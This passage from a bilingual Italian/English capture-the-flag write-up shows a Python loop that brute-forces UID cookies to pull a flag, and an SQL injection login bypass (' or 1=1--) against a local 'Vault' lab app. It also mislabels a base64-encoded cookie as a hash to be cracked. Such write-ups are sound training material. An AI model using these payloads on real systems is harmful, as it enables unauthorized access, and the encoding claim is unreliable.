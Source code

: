```Python
    #set the cookie
    cookies = {'UID': str(md5_i)}
    r = requests.post(f"http://{ip}:{port}", cookies = cookies)

    #get the i-th flag
    flag_i = r.cookies["FLAG"]

    #if the content of the cookie is different to the 100th one, we have the flag
    if flag_i != def_flag:
        print(f"FLAG found at iteration={i}\t{flag_i}")
        break
```

-----------------------------------------------------------------------------------

## Challenge 8.3 - Vault  (Introduction to SQL Injection)

[For Linux System]
#### Description :
```
You don't have access to any file.
The challenge can be resolved only browser side.

To lunch the app, run the following
- docker-compose up
```
We can open the site at: 127.0.0.1:9090

#### Solution :

It should be SQL Injection, if we try to enter:
```
Username: ' or 1=1--
Password: ' or 1=1--
```

IT: Una volta che abbiamo avuto accesso, saremmo accolti da un QR Code, che è meglio NON leggere. Se guardiamo nei cookie, notiamo la presenza di un nuovo cookie:

Once we were logged in, we would be greeted by a QR Code, which is best NOT to open. If we look in the cookies, we notice the presence of a new cookie:
```
SESSIONID:"ZW5jcnlwdENURntpX0g0dDNfaW5KM2M3aTBuNX0%3D"
```
IT: Sembra proprio un Hash. Possiamo usare un [Hash Cracker Online](https://hashes.com/en/decrypt/hash):

ENG: That's an Hash. We can decrypt it using an [Online Hash Cracker](https://hashes.com/en/decrypt/hash): 

We'll be rewarded with the flag = encryptCTF{i_H4t3_inJ3c7i0n5}

IT: -----------------------------------------------------------------------------------------------------
